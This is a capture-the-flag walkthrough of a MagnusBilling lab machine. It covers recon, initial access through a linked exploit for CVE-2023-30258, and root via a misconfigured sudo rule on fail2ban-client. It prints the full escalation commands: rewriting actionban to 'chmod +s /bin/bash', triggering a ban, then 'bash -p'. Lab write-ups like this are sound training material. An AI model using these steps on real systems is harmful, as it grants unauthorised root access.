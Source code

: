 ## 🧾 Overview
Some mistakes can be costly.\
Gain a shell, find the way and escalate your privileges!\
Note: Bruteforcing is out of scope for this room.


## 🔍 Recon
Let's start with basic scan:
```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.160.86
Not shown: 65528 closed tcp ports (reset)
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp    open     http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling
|_Requested resource was http://10.10.160.86/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
3306/tcp  open     mysql    MariaDB (unauthorized)
5038/tcp  open     asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 🌐 Web Enumeration
Port 80 hosts an Apache web server serving MagnusBilling, as revealed by the page title and /robots.txt disallowing /mbilling/. I visit the directory and find a login page. Furthermore, I can see the name MagnusBilling in the title.\
**● MagnusBilling is an open-source VoIP billing system used by telecom providers to manage customer accounts, process payments, and track call records. It integrates with Asterisk PBX for call management and automated billing.**\
By checking common application files, I identify the MagnusBilling version as 7.x.x from the README.md file.

## 🛡️ Vulnerability Analysis
Searching for vulnerabilities in MagnusBilling 7, I discover it is vulnerable to CVE-2023-30258, an unauthenticated command injection vulnerability. A detailed advisory for this vulnerability with a proof-of-concept (PoC) is available [here](https://eldstal.se/advisories/230327-magnusbilling.html).

## 🚀 Exploitation
I used this exploit(https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit).\
Follow the guide and eventually you will get the shell as asterisk. Now we have to stabilize the shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Now just visit the home directory of magnus and you'll find the user flag 🚩

## 🧑‍💻 Privilege Escalation
After gaining initial access as the asterisk user, I needed to escalate privileges to root. Time to enumerate.\
**● Finding the Path**\
First thing I always do after getting a foothold - check what I can run with sudo:
```bash
sudo -l
```
The output showed something interesting:
```bash
User asterisk may run the following commands on ip-10-10-28-254:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```
This immediately caught my attention. Fail2ban-client is a powerful tool that manages banning rules, and it needs root privileges to modify firewall rules. If I can run it as root without a password, there's definitely a way to abuse this.

**● Understanding Fail2ban**\
Fail2ban works by monitoring logs for suspicious activity (like failed login attempts) and automatically banning IPs by executing actions. These actions are basically shell commands that run as root.\
The key insight: if I can modify an action and then trigger it, I can execute arbitrary commands as root.

**● Checking the Configuration**\
I started by checking what jails (monitoring rules) were configured:
```bash
sudo /usr/bin/fail2ban-client status
```
Found an interesting jail called asterisk-iptables. Let me see what actions it has:
```bash
sudo /usr/bin/fail2ban-client get asterisk-iptables actions
```
```bash
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
```
Now let's check what the current actionban command does:
```bash
sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
```
```bash
<iptables> -I f2b-ASTERISK 1 -s <ip> -j <blocktype>
```
This is the default legitimate action - it adds iptables rules to block IPs. But since I have sudo access to fail2ban-client, I can change this action to execute any command I want.

## 🧾My plan:
1. Modify the actionban to run chmod +s /bin/bash instead of iptables rules
2. Trigger the ban action by banning any IP
3. This executes chmod +s /bin/bash as root, adding the SUID bit to bash
4. Spawn a privileged shell using the SUID bash

**Step 1: Modify the action**
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
**Step 2: Verify the change**
```bash
sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
```
```bash
chmod +s /bin/bash
```
Perfect! The action is now malicious.

**Step 3: Check bash permissions (before triggering)**
```bash
ls -la /bin/bash
```
```bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
Normal permissions - no SUID bit yet.

**Step 4: Trigger the action**
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
```
Success! This triggered the actionban command, which executed chmod +s /bin/bash as root.

**Step 5: Verify SUID bit was set**
```bash
ls -la /bin/bash
```
```bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
Excellent! Notice the s in -rwsr-sr-x. That's the SUID bit, meaning bash will now run with the owner's permissions (root).

## Getting Root
Now spawn a root shell with the -p flag (preserve privileges):
```bash
/bin/bash -p
```
The prompt changed from $ to # - I'm root!

## Why This Worked
The privilege escalation chain:

1. Sudo permission - I could run fail2ban-client as root without a password
2. Action modification capability - Fail2ban-client allows changing action commands
3. Command injection - I replaced the legitimate iptables command with chmod +s /bin/bash
4. Action trigger - Banning an IP executed my malicious command as root
5. SUID exploitation - Once bash had the SUID bit, it could be executed with root privileges
6. Preserved privileges - The -p flag prevented bash from dropping privileges

The critical mistake here was allowing a low-privilege user to run fail2ban-client with full sudo access. This tool can modify its own action configurations, essentially giving anyone with sudo access the ability to execute arbitrary commands as root.

Root flag: /root/root.txt ✓
